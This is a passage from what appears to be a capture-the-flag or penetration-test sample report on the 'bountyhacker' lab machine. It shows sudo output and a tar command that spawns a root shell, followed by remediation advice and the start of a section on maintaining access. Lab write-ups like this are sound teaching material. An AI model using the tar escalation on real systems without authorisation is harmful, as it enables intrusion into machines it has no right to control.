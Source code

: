 After retrieving the user flag we try checking Sudo:

```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
lin@bountyhacker:~/Desktop$ 
```

We are presented with a tar command with root permissions.
Tar is known to be easily usable to escalate privileges, see https://gtfobins.github.io/gtfobins/tar/#sudo

```
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Now we can read the root flag:

![ImgPlaceholder](screenshots/root_flag.png)

This was a trivial box.

**Vulnerability Fix:**

Remove unprotected password list, remove anonymous FTP access, remove /bin/tar from sudo list.

## Sample Report - Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.
